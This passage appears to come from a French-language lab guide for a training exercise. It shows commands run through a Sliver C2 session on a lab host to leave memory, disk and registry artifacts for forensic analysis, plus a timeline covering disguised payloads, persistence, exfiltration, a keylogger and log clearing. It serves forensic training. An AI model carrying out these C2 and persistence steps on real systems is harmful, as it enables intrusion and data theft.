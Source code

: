 
## 📈 Phase 8 : Génération d'Artefacts pour l'Investigation

### Étape 8.1 : Création d'Artefacts Mémoire
```bash
# Activités qui laissent des traces en mémoire
sliver (session) > execute "powershell Get-Process | Out-String"
sliver (session) > execute "netstat -an"

# Connexions réseau actives vers le C2
# Les connexions Silver restent actives pour analyse
```

### Étape 8.2 : Création d'Artefacts Disque
```bash
# Créer des fichiers avec métadonnées intéressantes
sliver (session) > execute "echo Sensitive Corporate Data > C:\Users\%USERNAME%\Documents\corporate_secrets.txt"
sliver (session) > execute "echo [BACKDOOR] Malicious payload executed successfully > C:\Windows\Temp\install.log"

# Modifier des registres pour laisser des traces
sliver (session) > execute "reg add HKCU\Software\AttackerTools /v LastRun /t REG_SZ /d \"%date% %time%\" /f"
```

### Étape 8.3 : Maintien de l'Activité
```bash
# Maintenir quelques connexions actives
sliver (session) > execute "ping -t 192.168.56.10" &

# Laisser le processus Silver actif pour capture mémoire
# Ne pas fermer la session principale
```

---

## 📋 Logging et Documentation de l'Attaque

### Timeline Complète de l'Attaque
```bash
# Script de logging automatique
cat > ~/project-m1/logs/attack-timeline.log << EOF
[T+00:00] Payload SystemOptimizer.exe généré
[T+00:02] Payload servi via HTTP sur port 8000
[T+00:05] Connexion Silver C2 établie depuis 192.168.56.20
[T+00:06] Reconnaissance système initiée
[T+00:10] Énumération des utilisateurs et privilèges
[T+00:15] Tentative d'élévation de privilèges
[T+00:20] Migration vers processus explorer.exe
[T+00:25] Persistance établie via registre HKCU\Run
[T+00:30] Tâche programmée "System Optimization" créée
[T+00:35] Service OptimizationSvc installé
[T+00:40] Collecte de fichiers utilisateur initiée
[T+00:45] Création du répertoire de staging C:\Windows\Temp\.system
[T+00:50] Compression des données collectées
[T+00:55] Exfiltration de collected_data.zip (2.3 MB)
[T+01:00] Keylogger activé pendant 5 minutes
[T+01:05] 3 captures d'écran prises
[T+01:10] Nettoyage partiel des logs Application et System
[T+01:15] Beacon de secours WinUpdate.exe installé
[T+01:20] Session maintenue active pour investigation
EOF
```